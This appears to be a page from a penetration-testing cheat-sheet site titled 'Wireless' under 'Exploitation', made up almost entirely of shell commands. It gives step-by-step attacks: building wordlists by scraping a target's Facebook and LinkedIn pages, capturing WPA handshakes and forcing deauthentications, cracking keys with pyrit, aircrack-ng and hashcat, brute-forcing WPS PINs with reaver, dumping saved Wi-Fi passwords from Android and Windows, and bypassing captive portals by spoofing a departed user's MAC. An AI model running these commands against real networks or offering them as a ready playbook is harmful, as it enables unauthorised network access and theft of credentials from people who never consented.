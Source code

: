 ```yaml
---
title: Wireless
category: Exploitation
order: 99
---
```


> **Monitor Mode** 

{% highlight bash %}
$ sudo airmon-ng start wlan0
{% endhighlight %}

Note: If an error occors try the following:
{% highlight bash %}
$ sudo airmon-ng check kill
$ sudo airmon-ng start wlan0
{% endhighlight %}

> **Break WPA** 

{% highlight bash %}
#Create a pyrit Rainbow table
#Create or select a wordlist
$ cewl http://www.facebookprofile.com >> wordlistUniq.lst 
$ cewl http://www.linkedinprofile.com >> wordlistUniq.lst 
$ grep -h -r  wordlistUniq.lst | sort | uniq > wordlistFinal.lst
$ grep -h -r """" [wordlist] | tr '[:space:]' '\n' | sort | uniq > wordlistUniq.lst 
$ john --wordlist=wordlistFinal.lst --rules:'[chosen rule set]' --stdout > mangledWordlist
# Rule set descriptions http://contest-2010.korelogic.com/rules.html
$ pyrit -e '[SSID]'  create_essid
$ pyrit -i mangledWordlist.txt import_passwords
$ pyrit batch
{% endhighlight %}

{% highlight bash %}
$ airodump-ng wlan0mon;
$ airodump-ng --ignore-negative-one --channel [channel] --bssid [bssid] wlan0mon -w WPAHandshake
#If you don't see a handshake, perform a deauth attack
$ sudo aireplay-ng --ignore-negative-one --deauth 1000 -a [bssid] -c [client MAC] wlan0mon
#Break with pyrite rainbow table
$ pyrit -r WPAHandshake-06.cap attack_batch
#Break with HashCat
$ aircrack-ng -J [SSID] WPAHandshake.cap
C:\ hashcat64.exe -m 2500 [SSID].hccap  rockyou.txt -r rules/best64.rule or PASSWORDSPRO
{% endhighlight %}

> **WPS** 

The following need to be installed:

* [Reaver](https://code.google.com/p/reaver-wps/)

{% highlight bash %}
#Search for WPS that is enabled and not locked
$ sudo wash -i wlan0mon -C

#Once located start the attack
$ sudo reaver -i wlan0mon 00:00:00:00:00:00 -S -v

#If reaver keeps tring 12345670:
$ sudo reaver -i wlan0mon -b 00:24:B2:88:CC:65 -S -v -N
{% endhighlight %}


> **Client Keys** 

Android:
{% highlight bash %}
$ su -c "cat /data/misc/wifi/wpa_supplicant.conf" | grep psk=
{% endhighlight %}

OSX:
{% highlight bash %}
TBD
{% endhighlight %}

Windows:
{% highlight powershell %}
netsh wlan show profile name=”[apname]” key=clear 
{% endhighlight %}

> **Captive Portal: Impersonate Departed User**

[CPSCAM](https://github.com/codewatchorg/cpscam)

Find client: 
{% highlight bash %}
sudo perl cpscam.pl 10.10.10.0 255.255.255.0  
{% endhighlight %}

Change MAC: 
{% highlight bash %}
ifconfig eth 0 down 
ifconfig eth0 hw ether [MAC] 
ifconfig eth0 up
{% endhighlight %}


> **Useful Tools** 

* [http://www.nirsoft.net/utils/wireless_key.html](http://www.nirsoft.net/utils/wireless_key.html)



